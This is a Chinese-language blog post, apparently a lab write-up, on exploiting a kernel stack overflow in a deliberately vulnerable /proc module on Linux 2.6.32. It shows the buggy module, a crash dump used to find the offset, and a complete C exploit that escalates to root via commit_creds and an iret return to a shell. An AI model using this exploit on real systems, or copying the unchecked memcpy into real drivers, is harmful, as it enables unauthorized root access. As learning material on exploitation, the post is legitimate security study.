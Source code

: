 ```yaml
---
title: 'Kernel Exploit: Stack Smashing'
date: 2017-05-13 03:06:33
tags:
- kernel exploit
- stack overflow
categories:
- kernel_exploit
---
```


做完了NULL Dereference实验，接下来就是stack smashing了。
内核态的栈溢出跟用户态的基本是一样的。都是套路....
<!-- more -->
### Example
```c
//stack.c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

int bug2_write(struct file *file, const char *buf, unsigned long len)
{
    char localbuf[8];
    memcpy(localbuf, buf, len);
    return len;
}

static int stack_smashing_init(void)
{
    printk(KERN_ALERT "stack_smashing driver init!\n");
    create_proc_entry("bug2",0666,0)->write_proc = bug2_write;
    return 0;
}

static void stack_smashing_exit(void)
{
    printk(KERN_ALERT "stack_smashing driver exit!\n");
}

module_init(stack_smashing_init);
module_exit(stack_smashing_exit);

/*Makefile*/
obj-m := stack.o 
KERNELDIR := /lib/modules/2.6.32.21/build
PWD := $(shell pwd) 
modules: 
	$(MAKE) -C $(KERNELDIR) M=$(PWD) modules 
modules_install: 
	$(MAKE) -C $(KERNELDIR) M=$(PWD) modules_install
clean:  
	rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions
```
很明显bug2_write存在栈溢出，我们首先得确定缓冲区到返回地址的距离。
```shell
echo abcdefghijklmnopqrstuvwxyz > /proc/bug2

root@w0lfzhang666:/home/w0lfzhang/Desktop/kernel_exp/stack_exp# dmesg
[10658.058232] Pid: 4803, comm: bash Tainted: P      D W  (2.6.32.21 #1) VMware Virtual Platform
[10658.058233] EIP: 0060:[<78777675>] EFLAGS: 00210206 CPU: 0
[10658.058234] EIP is at 0x78777675
[10658.058236] EAX: 0000001b EBX: c27bd840 ECX: 00000000 EDX: 08701808
[10658.058237] ESI: 6c6b6a69 EDI: 706f6e6d EBP: 74737271 ESP: c1a8df20
[10658.058238]  DS: 007b ES: 007b FS: 00d8 GS: 0033 SS: 0068
[10658.058239] Process bash (pid: 4803, ti=c1a8c000 task=c1d4bfc0 task.ti=c1a8c000)
[10658.058240] Stack:
[10658.058241]  000a7a79 c1a8df78 c27bd888 08701808 c27bd840 c1a9c300 c0249700 c1a8df64
[10658.058244] <0> c0244aa7 c1a8df98 c0217bed c27bd888 0000001b 08701808 c1a9c300 0000001b
[10658.058248] <0> 08701808 c1a8df8c c02016c2 c1a8df98 c1a8dfb4 b7708514 c0244a40 c05734e0
[10658.058251] Call Trace:
[10658.058255]  [<c0249700>] ? proc_file_write+0x0/0xa0
[10658.058257]  [<c0244aa7>] ? proc_reg_write+0x67/0xa0
[10658.058259]  [<c0217bed>] ? alloc_fd+0xbd/0xf0
[10658.058261]  [<c02016c2>] ? vfs_write+0xa2/0x1a0
[10658.058263]  [<c0244a40>] ? proc_reg_write+0x0/0xa0
[10658.058266]  [<c05734e0>] ? do_page_fault+0x160/0x3a0
[10658.058268]  [<c0201fe2>] ? sys_write+0x42/0x70
[10658.058270]  [<c010315c>] ? sysenter_do_call+0x12/0x28
[10658.058271] Code:  Bad EIP value.
[10658.058272] EIP: [<78777675>] 0x78777675 SS:ESP 0068:c1a8df20
[10658.058275] CR2: 0000000078777675
[10658.058276] ---[ end trace 99d97d6e1500596c ]---
```
ip被覆盖为'uvwx'，可知缓冲区到返回地址的偏移为20。

### Exploit
关键问题是你覆盖返回地址执行shellcode后要怎么回到用户态。那就是用iret指令了。从用户态到内核态一般通过int指令(软中断)，然后通过iret指令返回到用户态。需要注意的是从用户态到内核态会在栈中保存一个trap frame。定义如下：
```c
struct trap_frame
{
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));
```
iret会从栈中取出trap frame，restore寄存器的值。我们要做的就是把eip设置为launch_shell函数的地址。
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

struct trap_frame
{
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));

struct trap_frame tf;

void launch_shell(void)
{
    execl("/bin/sh", "sh", NULL);
}

void prepare_tf(void)
{
    asm("pushl %cs; popl tf + 4;" 
        "pushfl; popl tf + 8;"  
        "pushl %esp; popl tf + 12;"
        "pushl %ss; popl tf + 16;");
    tf.eip = launch_shell;
    tf.esp -= 1024; //unused part of stack
}

#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc016b2f0;
void (*commit_creds)(void*) KERNCALL = (void*) 0xc016afb0;

void payload(void)
{  
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf, %esp;"
       "iret;");
}
int main(void)
{
    char buf[24];
    *((void**)(buf + 20)) = payload; 
    prepare_tf();

    int fd = open("/proc/bug2", O_WRONLY);
    
    write(fd,buf,sizeof(buf));
    return 0;
}
```

美滋滋，一次性成功。
```shell
w0lfzhang@w0lfzhang666:~/Desktop/kernel_exp/stack_exp$ ./exp
# id
uid=0(root) gid=0(root)
# 
```
其实记录的NULL Dereference和stack smashing都设计到内核态执行用户空间的代码，但是现在处理器都会开启SMEP，禁止内核态执行用户态代码，所以只能gg了，还得想办法绕过SMEP...还有很多要学，坚持吧。本来也想把内核slab溢出研究下，还是缓一下，下周又要考试了。

### Reference
[Writing kernel exploits](https://tc.gtisc.gatech.edu/bss/2014/r/kernel-exploits.pdf)
[【系列分享】Linux 内核漏洞利用教程（二）：两个Demo](http://bobao.360.cn/learning/detail/3702.html)
